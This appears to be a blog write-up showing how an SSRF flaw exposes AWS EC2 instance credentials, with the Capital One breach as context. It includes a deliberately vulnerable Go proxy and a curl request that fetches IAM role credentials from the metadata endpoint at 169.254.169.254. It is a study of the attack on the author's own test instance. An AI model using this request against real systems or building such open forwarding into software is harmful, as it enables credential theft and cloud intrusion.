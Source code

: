 However, it is very easy to simulate the same issue with one server forwarding requests (note: *forwarding* is not the same as *redirecting*).

It’s so easy that, once you understand the attack, you start checking all the places where you forward requests in your own software.

Anyway, since I wanted to investigate the behaviour, I created a very crappy proxy in Golang. **Please, don’t use it in production** (or for anything important for that matter).

package main
// Crappy proxy. DON'T USE IT IN PRODUCTION, PLEASE, PLEASE PLEASE
import (
 "log"
 "net/http"
 "net/http/httputil"
 "net/url"
)func indexHandler(w http.ResponseWriter, r *http.Request) {
 urlQueryParam := r.URL.Query().Get("url")
 origin, \_ := url.Parse(urlQueryParam) director := func(req *http.Request) {
 req.Host = origin.Host //See <https://git.io/fjNmS>
 req.URL = origin
 }
 proxy := &httputil.ReverseProxy{Director: director}
 proxy.ServeHTTP(w, r)
}func main() {
 http.HandleFunc("/", indexHandler)
 log.Fatal(http.ListenAndServe(":80", nil))
}Once I developed the code, I launched an Amazon Instance (*t2.nano* will do), with the default AWS Linux Image, and associated a security group with ports 22 and 80 open (but only for my IP). I created an IAM role (assigning “s3 readonly” permissions, enough for a test) and assigned the role to the instance.

Once the instance was up and running, I followed the usual steps to connect the instance…

local $ eval `ssh-agent -s`
local $ ssh-add ~/key\_i\_just\_created\_with\_the\_instance.pem
local $ ssh ec2-user@<public ip of the instance>… followed by the typical steps for installing golang …

aws $ sudo yum update
aws $ sudo yum install -y golangand then I launched the forwarding proxy:

aws $ go build ./forward.go
aws $ sudo ./forward
> I had a crappy proxy listening on port 80, ready to forward any request that it receives in the *url* parameter.The proxy is purposely dumb (it’s a simple example of SSRF). But being so simple, it’s obvious that it also forwards any requests to the metadata endpoint.

And for all intents and purposes, the request seems to be made from the actual instance. So I can get the credentials under which the EC2 instance is running:

local $ curl <aws-ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<name of the role>{
 "Code" : "Success",
 "LastUpdated" : "2019-08-18T19:40:03Z",
 "Type" : "AWS-HMAC",
 "AccessKeyId" : "<REDACTED>",
 "SecretAccessKey" : "<REDACTED>",
 "Token" : "<REDACTED>",
 "Expiration" : "2019-08-19T02:10:29Z"
}I don’t know what was the specific compromise in Capital One’s case.
